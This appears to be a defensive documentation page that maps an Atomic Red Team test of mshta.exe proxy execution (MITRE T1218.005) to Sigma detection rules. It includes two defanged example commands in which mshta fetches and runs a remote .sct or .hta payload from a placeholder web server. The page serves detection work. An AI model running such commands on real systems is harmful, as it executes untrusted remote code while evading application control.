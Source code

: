 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta used to Execute PowerShell
## OS
  - windows


## Description:
Use Mshta to execute arbitrary PowerShell. Example is from the 2021 Threat Detection Report by Red Canary.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_susp_powershell_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - proc_creation_win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - proc_creation_win_non_interactive_powershell.yml (id: f4bbd493-b796-416e-bbf2-121235348529)



[back](../index.md)
